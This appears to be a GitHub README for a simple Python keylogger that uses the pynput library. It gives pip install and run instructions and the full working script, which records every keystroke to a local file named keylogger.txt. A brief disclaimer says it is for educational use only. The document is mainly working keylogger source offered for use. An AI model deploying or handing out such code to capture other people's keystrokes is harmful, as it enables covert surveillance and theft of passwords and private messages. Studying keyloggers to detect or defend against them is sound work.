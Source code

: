 Overview
This is a simple keylogger implemented in Python using the pynput library. It captures keystrokes and logs them to a text file.

Features
Logs all keystrokes
Saves captured keystrokes to keylogger.txt
Runs in the background until manually stopped

Install the modules: pip install pynput

Run the script using:

sh
Copy
Edit
python keylogger.py
Keystrokes will be logged in keylogger.txt.

Code Explanation:
The script listens for keystrokes and stores them in a file named keylogger.txt. It handles exceptions for non-character keys.

python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylogger.txt", "a") as f:
        try:
            char = key.char
            f.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
Disclaimer
This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use responsibly and with proper consent.

License
This project is licensed under the MIT License.
